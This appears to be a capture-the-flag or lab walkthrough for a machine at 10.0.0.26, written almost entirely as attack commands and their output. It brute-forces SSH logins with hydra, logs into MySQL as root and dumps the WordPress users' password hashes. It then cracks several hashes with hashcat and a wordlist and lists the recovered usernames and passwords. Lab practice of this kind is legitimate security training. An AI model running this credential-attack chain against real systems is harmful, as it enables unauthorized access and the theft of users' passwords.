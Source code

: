 Brute force SSH:
```bash
hydra -I -e nsr -L users.txt 10.0.0.26 ssh

# [22][ssh] host: 10.0.0.26   login: SHayslett   password: SHayslett
```

SSH login as SHayslett:
```bash
ssh SHayslett@10.0.0.26
# PW: SHayslett
```

MYSQL
```bash
mysql -h 10.0.0.26 --user=root -p --skip-ssl
# PW: plbkac
```

```
use wordpress;
select * from wp_users;
select user_login, user_nicename, user_pass from wp_users;
+------------+---------------+------------------------------------+
| user_login | user_nicename | user_pass                          |
+------------+---------------+------------------------------------+
| John       | john          | $P$B7889EMq/erHIuZapMB8GEizebcIy9. |
| Elly       | elly          | $P$BlumbJRRBit7y50Y17.UPJ/xEgv4my0 |
| Peter      | peter         | $P$BTzoYuAFiBA5ixX2njL0XcLzu67sGD0 |
| barry      | barry         | $P$BIp1ND3G70AnRAkRY41vpVypsTfZhk0 |
| heather    | heather       | $P$Bwd0VpK8hX4aN.rZ14WDdhEIGeJgf10 |
| garry      | garry         | $P$BzjfKAHd6N4cHKiugLX.4aLes8PxnZ1 |
| harry      | harry         | $P$BqV.SQ6OtKhVV7k7h1wqESkMh41buR0 |
| scott      | scott         | $P$BFmSPiDX1fChKRsytp1yp8Jo7RdHeI1 |
| kathy      | kathy         | $P$BZlxAMnC6ON.PYaurLGrhfBi6TjtcA0 |
| tim        | tim           | $P$BXDR7dLIJczwfuExJdpQqRsNf.9ueN0 |
| ZOE        | zoe           | $P$B.gMMKRP11QOdT5m1s9mstAUEDjagu1 |
| Dave       | dave          | $P$Bl7/V9Lqvu37jJT.6t4KWmY.v907Hy. |
| Simon      | simon         | $P$BLxdiNNRP008kOQ.jE44CjSK/7tEcz0 |
| Abby       | abby          | $P$ByZg5mTBpKiLZ5KxhhRe/uqR.48ofs. |
| Vicki      | vicki         | $P$B85lqQ1Wwl2SqcPOuKDvxaSwodTY131 |
| Pam        | pam           | $P$BuLagypsIJdEuzMkf20XyS5bRm00dQ0 |
+------------+---------------+------------------------------------+
```
=> Hashidentifier: MD5(Wordpress) 

Extract hashes to file:
```bash
mysql -h 10.0.0.26 --user=root -p --skip-ssl -B -e "use wordpress; SELECT user_pass FROM wp_users" > hashes.md5
```

Crack hashes:
```bash
hashcat -m 400 hashes.md5 /usr/share/wordlists/rockyou.txt

# $P$BzjfKAHd6N4cHKiugLX.4aLes8PxnZ1:football               
# $P$BFmSPiDX1fChKRsytp1yp8Jo7RdHeI1:cookie                 
# $P$BqV.SQ6OtKhVV7k7h1wqESkMh41buR0:monkey                 
# $P$BZlxAMnC6ON.PYaurLGrhfBi6TjtcA0:coolgirl
```
=> are these newlines at the end of some passwords part of the pw?
garry:football
scott:cookie
harry:monkey
kathy:coolgirl

